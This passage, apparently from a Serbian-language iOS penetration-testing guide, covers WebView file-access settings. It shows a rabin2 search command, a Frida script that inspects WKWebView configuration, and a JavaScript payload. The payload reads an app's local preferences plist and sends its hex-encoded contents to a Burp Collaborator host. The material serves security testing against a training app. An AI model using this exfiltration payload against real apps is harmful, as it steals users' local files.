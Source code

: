 Da biste pronašli ove metode u izvornom kodu ili kompiliranom binarnom fajlu, mogu se koristiti sledeće komande:

```bash
$ rabin2 -zz ./WheresMyBrowser | grep -i "loadHTMLString"
231 0x0002df6c 24 (4.__TEXT.__objc_methname) ascii loadHTMLString:baseURL:
```

Što se tiče **pristupa datotekama**, UIWebView to omogućava univerzalno, dok WKWebView uvodi postavke `allowFileAccessFromFileURLs` i `allowUniversalAccessFromFileURLs` za upravljanje pristupom putem URL-ova datoteka, pri čemu su oba po defaultu postavljena na false.

Pružen je primer Frida skripte za pregled konfiguracija **WKWebView**-a za sigurnosne postavke:

```bash
ObjC.choose(ObjC.classes['WKWebView'], {
onMatch: function (wk) {
console.log('onMatch: ', wk);
console.log('URL: ', wk.URL().toString());
console.log('javaScriptEnabled: ', wk.configuration().preferences().javaScriptEnabled());
console.log('allowFileAccessFromFileURLs: ',
wk.configuration().preferences().valueForKey_('allowFileAccessFromFileURLs').toString());
console.log('hasOnlySecureContent: ', wk.hasOnlySecureContent().toString());
console.log('allowUniversalAccessFromFileURLs: ',
wk.configuration().valueForKey_('allowUniversalAccessFromFileURLs').toString());
},
onComplete: function () {
console.log('done for WKWebView!');
}
});
```

Na kraju, primer JavaScript payloada koji ima za cilj izvlačenje lokalnih fajlova pokazuje potencijalni sigurnosni rizik povezan sa nepravilno konfigurisanim WebViews-om. Ovaj payload enkodira sadržaj fajlova u heksadecimalni format pre slanja na server, ističući važnost stroge sigurnosne mere u implementaciji WebView-a.

```javascript
String.prototype.hexEncode = function(){
var hex, i;
var result = "";
for (i=0; i<this.length; i++) {
hex = this.charCodeAt(i).toString(16);
result += ("000"+hex).slice(-4);
}
return result
}

var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
var xhr2 = new XMLHttpRequest();
xhr2.open('GET', 'http://187e2gd0zxunzmb5vlowsz4j1a70vp.burpcollaborator.net/'+xhr.responseText.hexEncode(), true);
xhr2.send(null);
}
}
xhr.open('GET', 'file:///var/mobile/Containers/Data/Application/ED4E0AD8-F7F7-4078-93CC-C350465048A5/Library/Preferences/com.authenticationfailure.WheresMyBrowser.plist', true);
xhr.send(null);
```
